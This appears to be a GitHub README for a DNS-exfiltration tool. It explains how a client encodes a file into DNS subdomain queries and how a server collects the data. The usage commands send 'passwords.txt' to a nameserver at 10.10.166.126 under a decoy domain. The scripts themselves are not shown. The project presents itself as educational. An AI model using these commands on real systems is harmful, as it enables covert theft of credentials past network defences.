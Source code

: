 ## DNS-Exfiltration

### Overview

This project contains two scripts: `server.py` and `client.py`. These scripts are used to demonstrate DNS exfiltration, where data is covertly sent from a client to a server using DNS queries.

### server.py

The `server.py` script sets up a DNS server that listens for DNS queries. It extracts data from the subdomain of incoming DNS queries, decodes it, and saves it to a specified file.

### client.py

The `client.py` script is used to send data to the DNS server by encoding the data in the subdomain of DNS queries. 

### Prerequisites

- Python 3.x
- dnslib
- colorama

You can install the required Python packages using pip:

### Usage

#### Running the DNS Server

1. Run the `server.py` script with the `-o` or `--output` option to specify the output file where the exfiltrated data will be saved.

```sh
python3 ./server.py -o output.txt
```

```sh
python3 ./server.py -o output.txt -p 53
```

The server will start listening on port `53` for incoming DNS queries.

#### Running the DNS Client

1. Use the `client.py` script to send data to the DNS server. This script will encode the data and send it in the subdomain of DNS queries to the server.

Here's an example of how to run the client script:

```sh
python3 ./client.py -d "google.com" -f "passwords.txt"
```

```sh
python3 client.py -d legitimate-domain.com -f passwords.txt -p 53 --nameserver 10.10.166.126
```

In this example, `legitimate-domain.com` is the domain to which the DNS queries will be sent, and `passwords` is the file containing the data to be exfiltrated.

![](https://i.imgur.com/f2D0Z7p.png)

### Note

This project is for educational purposes only. Unauthorized data exfiltration is illegal and unethical. Always obtain proper authorization before testing any security mechanism.